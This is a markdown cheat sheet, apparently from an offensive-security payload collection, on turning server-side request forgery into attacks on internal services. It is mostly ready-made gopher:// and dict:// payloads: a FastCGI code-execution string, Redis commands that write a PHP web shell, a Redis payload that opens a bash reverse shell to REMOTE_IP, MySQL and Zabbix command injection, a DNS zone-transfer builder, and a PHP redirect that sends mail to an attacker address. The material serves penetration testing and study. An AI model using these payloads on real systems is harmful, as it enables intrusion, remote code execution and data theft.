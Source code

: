 # SSRF Advanced Exploitation

> Some services (e.g., Redis, Elasticsearch) allow unauthenticated data writes or command execution when accessed directly. An attacker could exploit SSRF to interact with these services, injecting malicious payloads like web shells or manipulating application state.

## Summary 

* [DNS AXFR](#dns-axfr)
* [FastCGI](#fastcgi)
* [Memcached](#memcached)
* [MySQL](#memcached)
* [Redis](#redis)
* [SMTP](#smtp)
* [WSGI](#wsgi)
* [Zabbix](#zabbix)
* [References](#references)


## DNS AXFR

Query an internal DNS resolver to trigger a full zone transfer (**AXFR**) and exfiltrate a list of subdomains.

```py
from urllib.parse import quote
domain,tld = "example.lab".split('.')
dns_request =  b"\x01\x03\x03\x07"    # BITMAP
dns_request += b"\x00\x01"            # QCOUNT
dns_request += b"\x00\x00"            # ANCOUNT
dns_request += b"\x00\x00"            # NSCOUNT
dns_request += b"\x00\x00"            # ARCOUNT
dns_request += len(domain).to_bytes() # LEN DOMAIN
dns_request += domain.encode()        # DOMAIN
dns_request += len(tld).to_bytes()    # LEN TLD
dns_request += tld.encode()           # TLD
dns_request += b"\x00"                # DNAME EOF
dns_request += b"\x00\xFC"            # QTYPE AXFR (252)
dns_request += b"\x00\x01"            # QCLASS IN (1)
dns_request = len(dns_request).to_bytes(2, byteorder="big") + dns_request
print(f'gopher://127.0.0.1:25/_{quote(dns_request)}')
```

Example of payload for `example.lab`: `gopher://127.0.0.1:25/_%00%1D%01%03%03%07%00%01%00%00%00%00%00%00%07example%03lab%00%00%FC%00%01`

```ps1
curl -s -i -X POST -d 'url=gopher://127.0.0.1:53/_%2500%251d%25a9%25c1%2500%2520%2500%2501%2500%2500%2500%2500%2500%2500%2507%2565%2578%2561%256d%2570%256c%2565%2503%256c%2561%2562%2500%2500%25fc%2500%2501' http://localhost:5000/ssrf --output - | xxd
```


## FastCGI

Requires to know the full path of one PHP file on the server, by default the exploit is using `/usr/share/php/PEAR.php`.

```ps1
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%04%04%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH58%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/usr/share/php/PEAR.php%0D%01DOCUMENT_ROOT/%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00%3A%04%00%3C%3Fphp%20system%28%27whoami%27%29%3F%3E%00%00%00%00
```


## Memcached

Memcached communicates over port 11211 by default. While it is primarily used for storing serialized data to enhance application performance, vulnerabilities can arise during the deserialization of this data.

```ps1
python2.7 ./gopherus.py --exploit pymemcache
python2.7 ./gopherus.py --exploit rbmemcache
python2.7 ./gopherus.py --exploit phpmemcache
python2.7 ./gopherus.py --exploit dmpmemcache
```

## MySQL

MySQL user should not be password protected.

```ps1
$ python2.7 ./gopherus.py --exploit mysql
Give MySQL username: root
Give query to execute: SELECT 123;

gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%0c%00%00%00%03%53%45%4c%45%43%54%20%31%32%33%3b%01%00%00%00%01
```

## Redis

> Redis is a database system that stores everything in RAM

The attacker changes Redis's dump directory to the web server's document root (`/var/www/html`) and renames the dump file to `file.php`, ensuring that when the database is saved, it generates a PHP file. They then create a Redis key (`mykey`) containing the web shell code, which enables remote command execution via HTTP GET parameters. Finally, the `SAVE` command forces Redis to write the current in-memory database to disk, resulting in the creation of the malicious web shell at `/var/www/html/file.php`.

```ps1
CONFIG SET dir /var/www/html
CONFIG SET dbfilename file.php
SET mykey "<?php system($_GET[0])?>"
SAVE
```

* Getting a webshell with `dict://`
    ```powershell
    dict://127.0.0.1:6379/CONFIG%20SET%20dir%20/var/www/html
    dict://127.0.0.1:6379/CONFIG%20SET%20dbfilename%20file.php
    dict://127.0.0.1:6379/SET%20mykey%20"<\x3Fphp system($_GET[0])\x3F>"
    dict://127.0.0.1:6379/SAVE
    ```

* Getting a PHP reverse shell with `gopher://`
    ```powershell
    gopher://127.0.0.1:6379/_config%20set%20dir%20%2Fvar%2Fwww%2Fhtml
    gopher://127.0.0.1:6379/_config%20set%20dbfilename%20reverse.php
    gopher://127.0.0.1:6379/_set%20payload%20%22%3C%3Fphp%20shell_exec%28%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FREMOTE_IP%2FREMOTE_PORT%200%3E%261%27%29%3B%3F%3E%22
    gopher://127.0.0.1:6379/_save
    ```

## SMTP

Malicious actors can craft `gopher://` URLs to manipulate low-level protocols (like HTTP or SMTP) on internal systems.

```ps1
gopher://localhost:25/_MAIL%20FROM:<attacker@example.com>%0D%0A
```

The following PHP script can be used to generate a page that will redirect to the `gopher://` payload.

```php
<?php
    $commands = array(
            'HELO victim.com',
            'MAIL FROM: <admin@victim.com>',
            'RCPT To: <hacker@attacker.com>',
            'DATA',
            'Subject: @hacker!',
            'Hello Friend',
            '.'
    );
    $payload = implode('%0A', $commands);
    header('Location: gopher://0:25/_'.$payload);
?>
```


## WSGI

Exploit using the Gopher protocol, full exploit script available at [wofeiwo/webcgi-exploits/uwsgi_exp.py](https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py).

```powershell
gopher://localhost:8000/_%00%1A%00%00%0A%00UWSGI_FILE%0C%00/tmp/test.py
```

| Header    |           |             |
|-----------|-----------|-------------|
| modifier1 | (1 byte)  | 0 (%00)     |
| datasize  | (2 bytes) | 26 (%1A%00) |
| modifier2 | (1 byte)  | 0 (%00)     |

| Variable (UWSGI_FILE) |           |    |                |
|-----------------------|-----------|----|----------------|
| key length            | (2 bytes) | 10 | (%0A%00)       |
| key data              | (m bytes) |    | UWSGI_FILE     |
| value length          | (2 bytes) | 12 | (%0C%00)       |
| value data            | (n bytes) |    | /tmp/test.py   |


## Zabbix

If `EnableRemoteCommands=1` is enabled in the Zabbix Agent configuration, it allows the execution of remote commands.

```ps1
gopher://127.0.0.1:10050/_system.run%5B%28id%29%3Bsleep%202s%5D
```


## References

- [SSRFmap - Introducing the AXFR Module - Swissky - June 13, 2024](https://khulnasoft.github.io/SSRFmap-axfr/)
- [How I Converted SSRF to XSS in Jira - Ashish Kunwar - June 1, 2018](https://medium.com/@D0rkerDevil/how-i-convert-ssrf-to-xss-in-a-ssrf-vulnerable-jira-e9f37ad5b158)
- [Pong [EN] | FCSC 2024 - Arthur Deloffre (@Vozec1) - April 12, 2024](https://vozec.fr/writeups/pong-fcsc2024-en/)
- [Pong [EN] | FCSC 2024 - Kévin - Mizu (@kevin_mizu) - April 13, 2024](https://mizu.re/post/pong)
